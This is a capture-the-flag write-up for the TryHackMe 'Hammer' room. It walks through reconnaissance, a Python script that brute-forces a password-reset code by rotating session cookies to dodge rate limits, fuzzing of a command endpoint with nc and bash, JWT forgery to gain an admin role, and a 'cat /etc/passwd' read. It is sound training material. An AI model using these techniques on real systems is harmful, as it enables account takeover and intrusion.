---

## Introduction

- Difficulty: Medium
- Time: 60 mins

> With the Hammer in hand, can you bypass the authentication mechanisms and get RCE on the system?

Room Link: [Hammer](https://tryhackme.com/room/hammer)

Target IP: 10.112.166.108

---

## Reconnaissance

Lets start with a simple `nmap` scan of the first 9999 ports.

```
$ nmap -sS -sV -p1-9999 10.112.166.108
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-07 16:22 +0530
Nmap scan report for 10.112.166.108 (10.112.166.108)
Host is up (0.17s latency).
Not shown: 9997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.63 seconds
```

Port 1337 has a HTTP server open. Let's check that out.



It's a simple login page.

## Logging In

#### Getting a valid email address to login

Checking the source code of the login page, we see the developer left a clue about the directory structure of the filesystem, as seen in the image.



So we can perform a directory enumeration, but before that, we have to prepend `hmr_` before every word in the wordlist. We can use `ffuf` for this.

```
$ ffuf -u "http://10.112.166.108:1337/hmr_FUZZ" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.112.166.108:1337/hmr_FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 4939ms]
css                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 166ms]
js                      [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 167ms]
logs                    [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 169ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

The first 3 results are standard, but the last one stands out. Let's check out the page at `http://10.112.166.108:1337/hmr_logs`.



There a single file named `error.logs`. Opening it we see log records containing error messages related to authentication.



It seems we have a valid email address, that was trying to log in, but could not. We don't the password as of now of the email we got. But we do see a **Forget Password** option. Maybe we have some hint what to do next.

#### Abusing password reset functionality to login

The password reset page contains an input box for email address. Entering a random one, we see the error message "Invalid email address!". Email enumeration is possible here.

We got one email previously from the error log. Entering that, we are redirected to the "Enter Recovery Code" page.



Which also confirms that this is a valid email. We just need to get the password (or reset it).

Now we don't have access to any mail box. Right now, only possible idea to bypass the code is by brute forcing it. Well, after trying for 8 attempts (within 180-second time window), it triggers rate limiting.


Now we need to understand the details of how the reset functionality is working behind the scenes to abuse it. Even if we refresh the page, the rate limiting message still appears. If you check the cookies, there is one cookie named `PHPSESSID`. Clearing it, and then refreshing the page, the error message disappears. That means the backend is tracking rate-limited sessions through the `PHPSESSID` cookie.



We also observe that, the recovery code is sent to the backend through a POST request made to `/reset_password.php` endpoint. The POST body has a `recovery_code` parameter and an `s` parameter (which is the remaining time until 180 seconds passes).



Checking the response headers for a recovery code submit request, one non-standard header stands out. The `Rate-Limit-Pending` header. It has the number of remaining attempts until this session it rate-limited.

By now, we have some understanding of how the backend is maintaining sessions, checking for rate limits, etc. From that, we can lay out the steps for abusing this functionality and write a simple Python script for bruteforcing the recovery code.

1. `POST` request to `/reset_password.php` with POST body containing `email` to get a new session ID
2. `POST` request to `/reset_password.php` with POST body containing `recovery_code` and `s` to check for correct code.
3. After every 7 requests, goto step 1 to get a new session ID. This way we can bypass rate-limiting checks.

This is the script I came up with:

```python
#!/usr/bin/env python3

import requests

ip = "10.112.166.108"
port = "1337"

session = requests.Session()

def get_new_session_id():
  session.cookies.clear()
  session.post(f"http://{ip}:{port}/reset_password.php",
    headers = {
      "Content-Type": "application/x-www-form-urlencoded"
    },
    data = {
      "email": "tester@hammer.thm"
    }
  )

def init_session():
  session.get(f"http://{ip}:{port}/reset_password.php")

def main():
  init_session()
  
  for i in range(10000):
    if i % 7 == 0:
      get_new_session_id()
    
    response = session.post(f"http://{ip}:{port}/reset_password.php",
      headers = {
        "Content-Type": "application/x-www-form-urlencoded"
      },
      data = {
        "recovery_code": f"{i:04d}",
        "s": "180"
      }
    )

    if len(response.content) == 44:
      print(f"[-] Rate limited! Try again!")
      break
    elif len(response.content) != 2202:
      print(f"[+] Recovery code: {i:04d}")
      print(f"[+] PHPSESSID: {session.cookies.get('PHPSESSID')}")
      break
    else:
      print(f"[*] Current code: {i:04d}")

  session.close()

if __name__ == "__main__":
  main()
```

I would absolutely recommend to write the script yourself by understanding the logic flow of the application.

Just let this script run, until the correct recovery code is found. It will print the correct code and corresponding session ID.



Now we copy this session ID, replace the one in the Browser Dev tools and access the page at `/reset_password.php` directly without clicking any links (because it can cause session cookie to reset. We need the authenticated session we got from the script).



We can enter any password of our choice here. And click **Reset Password**.

If everything has worked successfully, you will be redirected to login page without any error messages. Just enter the newly created password and login.


And we're in! Copy the flag fast, because you will notice the page automatically logouts after certain time interval.

## RCE

One thing we can do now, is to view the source code of the dashboard and scroll to the very end.



Analyzing the code, we see the input field we saw earlier, takes in shell commands and shows the response in the page by sending `POST` requests to `/execute_command.php`. By sending some test commands such as `id` or `whoami`, the response is "Command not allowed". So we need to bypass the blacklisting.

Using Burp Suite, I found out which headers are needed for the execute command request.



Create a wordlist `commands.txt` with the most used Linux commands while testing for RCE. For example,

```
id
whoami
ls
pwd
cat
uname
bash
nc
ncat
python3
```

With a simple `ffuf` command we can brute force them check which commands are allowed.

```
$ ffuf -u "http://10.112.166.108:1337/execute_command.php" -X POST -H "Content-Type: application/json" -d '{"command":"FUZZ"}' -H "Authorization: Bearer REDACTED" -b "PHPSESSID=REDACTED; token=REDACTED; persistentSession=no" -w commands.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.112.166.108:1337/execute_command.php
 :: Wordlist         : FUZZ: /home/inferno/flags/tmp/commands.txt
 :: Header           : Cookie: PHPSESSID=REDACTED; token=REDACTED; persistentSession=no
 :: Header           : Content-Type: application/json
 :: Header           : Authorization: Bearer REDACTED
 :: Data             : {"command":"FUZZ"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

ncat                    [Status: 200, Size: 31, Words: 3, Lines: 1, Duration: 172ms]
pwd                     [Status: 200, Size: 31, Words: 3, Lines: 1, Duration: 172ms]
id                      [Status: 200, Size: 31, Words: 3, Lines: 1, Duration: 174ms]
whoami                  [Status: 200, Size: 31, Words: 3, Lines: 1, Duration: 175ms]
bash                    [Status: 200, Size: 31, Words: 3, Lines: 1, Duration: 176ms]
ls                      [Status: 200, Size: 179, Words: 1, Lines: 1, Duration: 179ms]
python3                 [Status: 200, Size: 31, Words: 3, Lines: 1, Duration: 180ms]
uname                   [Status: 200, Size: 31, Words: 3, Lines: 1, Duration: 182ms]
nc                      [Status: 200, Size: 31, Words: 3, Lines: 1, Duration: 182ms]
cat                     [Status: 200, Size: 31, Words: 3, Lines: 1, Duration: 183ms]
:: Progress: [10/10] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

One command stands out, `ls`. Checking the output of the `ls` command, we have a key file in current directory which is `/var/www/html`. Keep this for later.



#### JWT

If you check the dashboard, current role is "user". Checking the JWT token on https://jwt.io confirms that.



Now if we access the secret key we found in the root directory of the web server, we can sigh the JWT token with it and changing the role to admin. Maybe admin user will have less stricter command blacklisting. Also set the exp parameter to a date in the future, so that it does not expire and set the `kid` parameter to out secret file which we found. Replace all instances of JWT token with the new signed token in Burp Suite. And then send the `cat /etc/passwd` command to check.




Now we can finally get the 2nd flag.


